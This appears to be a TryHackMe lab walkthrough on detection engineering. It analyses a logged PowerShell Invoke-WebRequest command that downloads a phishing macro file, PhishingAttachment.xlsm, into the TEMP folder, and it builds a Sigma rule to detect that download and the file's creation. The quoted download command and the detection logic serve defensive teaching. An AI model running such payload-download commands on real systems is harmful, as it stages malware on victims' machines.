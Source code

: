 Two events contained possible indicators of compromise. Let's focus on the event that contained the `Invoke-WebRequest` command line:

`"powershell.exe" & {$url = 'http://localhost/PhishingAttachment.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm}"`

We can use multiple parts of this artefact to include in our custom Sigma rule.

```ad-summary
- `Invoke-WebRequest`: It is not common for this command to run from a script behind the scenes.

- `$url = 'http://localhost/PhishingAttachment.xlsm'`: Attackers often use a specific malicious domain to host their payloads. Including the malicious URL in the Sigma rule could help us detect that specific URL.

- `PhishingAttachment.xlsm`: This is the malicious payload downloaded and saved on our system. We can include its name in the Sigma rule as well.
```

Combining all these pieces of information in a Sigma rule would look something like this:

```
title: Detect PowerShell Invoke-WebRequest and File Creation of PhishingAttachment.xlsm
  id: 1
  description: Detects the usage of Invoke-WebRequest to download PhishingAttachment.xlsm and the creation of the file PhishingAttachment.xlsm.
 status: experimental
  author: TryHackMe
  logsource:
    category: process_creation
    product: windows
    service: sysmon
  detection:
   selection_invoke_webrequest:
      EventID: 1
      CommandLine|contains:
        - 'Invoke-WebRequest'
        - 'http://localhost/PhishingAttachment.xlsm'
    
    selection_file_creation:
      EventID: 11  # Sysmon Event ID for File Creation
      TargetFilename|endswith: '\PhishingAttachment.xlsm'
      
    condition: selection_invoke_webrequest or selection_file_creation
  falsepositives:
    - Legitimate administration activity may use Invoke-WebRequest, and legitimate Excel files may be created with similar names.
  level: high
  tags:
    - attack.t1071.001   # Web Service - Application Layer Protocol
    - attack.t1059.001   # PowerShell
    - attack.t1105       # Ingress Tool Transfer
    - attack.t1566.001   # Spearphishing Attachment
```
